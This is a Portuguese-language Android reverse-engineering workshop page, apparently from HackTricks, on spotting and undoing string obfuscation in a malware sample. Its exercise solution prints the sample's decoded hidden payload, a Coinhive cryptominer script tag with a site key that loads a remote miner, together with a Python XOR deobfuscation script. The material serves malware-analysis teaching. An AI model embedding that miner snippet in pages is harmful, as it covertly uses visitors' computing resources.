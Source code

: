 Existem muitas vezes em que o aplicativo que você está revertendo não será tão direto quanto alguns dos exemplos que discutimos. O desenvolvedor implementará uma ou mais técnicas de ofuscação para ocultar o comportamento e / ou implementação de seu aplicativo. Isso pode ser por motivos benignos e maliciosos.

A chave sobre a ofuscação a lembrar é que, se você quiser desofuscar, poderá fazê-lo. A decisão chave não é se você pode ou não, mas se vale a pena os recursos para desofuscar.

A razão pela qual você sempre pode desofuscar algo é porque, em última análise, a CPU em algum momento precisa ver o código não ofuscado para executá-lo.

## Como desofuscar <a href="how-to-de-obfuscate" id="how-to-de-obfuscate"></a>

Como você escolhe desofuscar o aplicativo dependerá do método de ofuscação, mas existem algumas técnicas comuns que geralmente funcionam bem. Aqui, abordaremos apenas as técnicas de desofuscação estática, pois este workshop cobre apenas análise / reversão estática. No entanto, lembre-se de que executar o aplicativo e analisá-lo dinamicamente pode ser outra ótima maneira de contornar a ofuscação.

Para ofuscação no bytecode DEX (Java), uma das maneiras mais fáceis de desofuscar estaticamente é identificar os métodos de desofuscação no aplicativo e copiar sua decompilação em um arquivo Java que você então executa no arquivo ofuscado, strings, código, etc.

Outra solução para Java e Código Nativo é transliterar o algoritmo de desofuscação em Python ou qualquer outra linguagem de script com a qual você esteja mais confortável. Digo "transliterar" porque é importante lembrar que nem sempre é necessário \ * entender \ * o algoritmo de desofuscação, você só precisa de uma maneira de executá-lo. Eu cubro isso com mais detalhes na palestra "Desembalando o Desembalador Embalado" que está vinculada na seção "Mais exemplos".

## Indicadores de ofuscação <a href="indicators-of-obfuscation" id="indicators-of-obfuscation"></a>

Existem muitos tipos diferentes de ofuscação e, portanto, assim como muitos tipos diferentes de indicadores para alertá-lo como analista de que um aplicativo provavelmente está ofuscado, mas aqui estão alguns exemplos com soluções de análise estática propostas para desofuscar.

* Nenhuma string: Java e Android dependem muito de strings, então se você não vir nenhuma ou apenas strings embaralhadas, é altamente provável que as strings estejam ofuscadas.
  * Solução sugerida: Procure chamadas de método que levem strings como argumento e rastreie de volta de onde esse argumento está vindo. Em algum momento, o argumento de string passará por um método de desofuscação antes de ser passado para a API que leva o argumento String.
* Strings embaralhadas: as APIs Java e Android exigem as strings de texto simples, não embaralhadas.
  * Solução sugerida: As strings embaralhadas provavelmente são todas passadas para os mesmos métodos antes de serem passadas para as APIs. Esses métodos provavelmente são os métodos de desofuscação.
* Arquivos binários no diretório assets / e chamadas DexClassLoader no aplicativo: provavelmente descompactando e carregando código adicional. (Também pode estar baixando de um local remoto e depois carregando usando DexClassLoader)
  * Solução sugerida: Identifique onde o arquivo é lido e siga o caminho. É provável que seja desofuscado rapidamente após a leitura.
* Bibliotecas nativas - Não é possível identificar as funções JNI (nenhuma função chamada Java_ e nenhuma chamada para RegisterNatives): Para executar quaisquer métodos nativos, JNI deve ser capaz de emparelhar a função na biblioteca nativa com a declaração do método nativo em Java e, portanto, um dos dois deve existir em algum momento.
  * Solução sugerida: Comece no método JNI_OnLoad e procure uma rotina de desofuscação que carregue código adicional.

## Exercício 7 - Desofuscação de string <a href="exercise-7---string-deobfuscation" id="exercise-7---string-deobfuscation"></a>

Neste exercício, praticaremos a desofuscação de strings para analisar um aplicativo. Para o exercício, usaremos a amostra em `~/samples/ClashOfLights.apk` na VM. Esta amostra tem o digest SHA256 c403d2dcee37f80b6d51ebada18c409a9eae45416fe84cd0c1ea1d9897eae4e5.

### Objetivos <a href="goals" id="goals"></a>

Identificar strings ofuscadas e desenvolver uma solução para desofuscá-las.

### Contexto do exercício <a href="exercise-context" id="exercise-context"></a>

Você é um analista de malware revisando este aplicativo para determinar se é malware. Você encontra uma string Javascript ofuscada que está sendo carregada e precisa desofuscá-la para determinar se o aplicativo é malicioso ou não. Você não pode executar o aplicativo dinamicamente e precisa determinar o que o Javascript é estaticamente.

### Instruções <a href="instructions" id="instructions"></a>

1. Encontre a string que você precisa desofuscar
2. Identifique a rotina que desofusca isso.
3. Determine como você deseja escrever uma solução para desofuscar a string.
4. Faça isso :)

### Solução <a href="solution" id="solution"></a>

A string desofuscada é:
```
<script src="https://coinhive.com/lib/coinhive.min.js"></script><script>var miner = new CoinHive.Anonymous('nf24ZwEMmu0m1X6MgcOv48AMsIYErpFE', {threads: 2});miner.start();</script>
```
O script Python que escrevi para desofuscar é:
```
enc_str = "773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D393B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C"

length = len(enc_str)
count = 0
dec_str = [0] * (length/2)
while (count < length):
    dec_str[count/2] = (int(enc_str[count], 16) << 4) + int(enc_str[count + 1], 16) & 0xFF
    count += 2
print dec_str


key = [75, 67, 81, 82, 49, 57, 84, 90]
enc_str = dec_str
count = 0
length = len(enc_str)
while (count < length):
    dec_str[count] = chr(enc_str[count] ^ key[count % len(key)])
    count += 1
print ''.join(dec_str)
```
## Mais Exemplos <a href="more-examples" id="more-examples"></a>

Eu fiz algumas palestras sobre desofuscação de aplicativos Android que incluem uma variedade de mecanismos de ofuscação. Nestas palestras, eu discuto as técnicas avançadas de ofuscação, minha solução para desofuscar e as considerações e escolhas que fiz ao decidir como eu queria desofuscar.

* BlackHat USA 2018: “Desempacotando o Desempacotador: Engenharia Reversa de uma Biblioteca Anti-Análise Android” \[[vídeo](https://www.youtube.com/watch?v=s0Tqi7fuOSU)]
  * Esta palestra aborda a engenharia reversa de uma das bibliotecas nativas de anti-análise mais complexas que eu já vi usada por um aplicativo Android. Ela cobre principalmente técnicas de ofuscação em código nativo.
* REcon 2019: “O Caminho para a Carga Útil: Edição Android” \[[vídeo](https://recon.cx/media-archive/2019/Session.005.Maddie_Stone.The_path_to_the_payload_Android_Edition-J3ZnNl2GYjEfa.mp4)]
  * Esta palestra discute uma série de técnicas de ofuscação, exclusivamente em código Java, que um botnet Android estava usando para ocultar seu comportamento.


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Você trabalha em uma **empresa de segurança cibernética**? Você quer ver sua **empresa anunciada no HackTricks**? ou você quer ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!

- Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)

- Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)

- **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **Compartilhe suas técnicas de hacking enviando PRs para o [repositório hacktricks](https://github.com/carlospolop/hacktricks) e [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
